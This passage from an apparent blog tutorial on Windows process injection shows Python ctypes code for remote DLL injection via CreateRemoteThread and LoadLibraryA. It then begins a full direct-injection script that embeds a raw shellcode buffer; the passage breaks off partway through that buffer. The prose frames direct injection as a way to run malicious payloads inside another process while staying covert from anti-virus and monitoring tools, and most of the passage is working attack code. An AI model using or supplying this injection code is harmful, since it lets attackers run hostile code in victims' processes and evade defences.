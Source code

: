 # Allocates space for DLL path string
baseaddr = windll.kernel32.VirtualAllocEx(hprocess, None, len(DLLPATH), MEM_COMMIT_RESERVE, PAGE_READWRITE)
print(WinError())

# Writes DLL path to that memory
windll.kernel32.WriteProcessMemory(hprocess, baseaddr, DLLPATH, len(DLLPATH), byref(BYTES_WRITTEN))
print(WinError())

# Gets a handle to kernel32.dll
hmodule = windll.kernel32.GetModuleHandleA("kernel32.dll")
# Resolve loadlibrary address
loadlibraryaddr = windll.kernel32.GetProcAddress(hmodule, "LoadLibraryA")

# Create remote thread to execute loadlibrary
if not windll.kernel32.CreateRemoteThread(hprocess, None, 0, loadlibraryaddr, baseaddr, 0, byref(THREAD_ID)):
    print(WinError())
    sys.exit(0)
print("Thread ID: 0x%08x" % THREAD_ID.value)
{% endhighlight %}
</figure>

Once the DLL is loaded DLLMain is executed by the OS which will contain a payload of malicious code. Because loadlibrary is used to load the DLL it could be spotted, either by anti-virus or by other security monitoring tools. If we view the process using process explorer we can see the DLL is loaded within the process. To be more covert we can use another method of process injection called direct injection. 

## Direct injection
Direct code injection involves directly injecting code into the process rather than forcing a DLL to load. Most of the api calls are the same except that we don't need to get the loadlibrary address. The payload for this type of injection is typically shellcode rather than a PE or DLL as it takes up less space. 

Full code for direct injection:

<figure class="lineno-container">
{% highlight python linenos=table %}
from ctypes import *
import sys

PROCESS_ALL_ACCESS = 0x001F0FFF
MEM_COMMIT_RESERVE = ( 0x1000 | 0x2000 )
PAGE_READWRITE     = 0x40
BYTES_WRITTEN      = c_int(0)
THREAD_ID          = c_ulong(0)

PID = int(input("Enter PID to inject into: "))

buf =  ""
buf += "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += "\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
buf += "\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
buf += "\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
buf += "\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
buf += "\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
buf += "\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
buf += "\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"